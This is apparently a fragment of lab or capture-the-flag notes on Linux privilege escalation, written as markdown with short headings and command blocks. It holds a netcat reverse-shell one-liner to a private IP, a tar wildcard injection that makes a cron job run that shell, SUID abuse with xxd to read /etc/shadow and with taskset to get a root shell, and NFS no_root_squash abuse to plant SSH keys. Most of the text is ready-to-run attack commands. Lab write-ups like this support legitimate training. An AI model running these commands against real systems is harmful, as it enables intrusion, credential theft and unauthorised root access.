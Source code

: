 ```
```
#### \# 4 exploit tar wildcard use by cronjob
```
echo "mkfifo /tmp/mini; nc 192.168.100.220 443 0</tmp/mini | /bin/sh >/tmp/mini 2>&1; rm /tmp/mini" > /home/bob/shell.sh && chmod +x /home/bob/shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```
&nbsp;
# 4 find hidden files
---
```
find / -name ".*" -type f -path "/home/*" 2>/dev/null
/home/susan/.secret
```
&nbsp;
# 5 SUID  1
---
#### \# find suid files
```
find / -perm -4000 -type f -exec ls -lah {} 2>/dev/null \;
```
#### \# xxd
```
xxd "/etc/shadow" | xxd -r
```
&nbsp;
# 6 SUID 2
---
#### \# find suid files
```
find / -perm -4000 -type f -exec ls -lah {} 2>/dev/null \;
```
#### \# taskset
```
taskset 1 /bin/bash -p
```
&nbsp;
# 7 NFS
---
```
showmount -e 192.168.100.111
mount 192.168.100.111:/home/peter /mnt/peter
```
we cant write to /mnt/peter (no_root_squash)
BUT, we can create an user with the same  uid/gid que en el export, y asi escribir al volumen montado y subir unas ssh keys
